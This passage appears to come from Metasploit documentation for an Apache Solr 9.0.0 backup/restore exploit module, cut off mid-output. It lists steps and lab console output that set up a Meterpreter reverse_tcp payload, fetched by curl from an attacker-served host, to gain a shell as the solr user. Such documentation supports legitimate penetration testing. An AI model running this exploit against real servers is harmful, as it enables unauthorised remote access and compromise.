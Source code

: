 ```yml
      - .:/mnt/config
volumes:
  solr1:
```

## Verification Steps

1. Start msfconsole
1. Do: `use apache_solr_backup_restore`
1. Set the `RHOST`, `LHOST` and if required, the `USERNAME`, and `PASSWORD` options
1. Run the module
1. Receive a Meterpreter session as the `solr` user.

## Scenarios
### Apache Solr 9.0.0 (no Authentication)

```
msf6 > use linux/http/apache_solr_backup_restore
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/apache_solr_backup_restore) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(linux/http/apache_solr_backup_restore) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(linux/http/apache_solr_backup_restore) > options

Module options (exploit/linux/http/apache_solr_backup_restore):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    no        Solr password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.ht
                                         ml
   RPORT      8983             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  solr             no        Path to Solr
   USERNAME   solr             no        Solr username
   VHOST                       no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      GCPCPUvxM        no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp/            yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               172.16.199.1     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:
```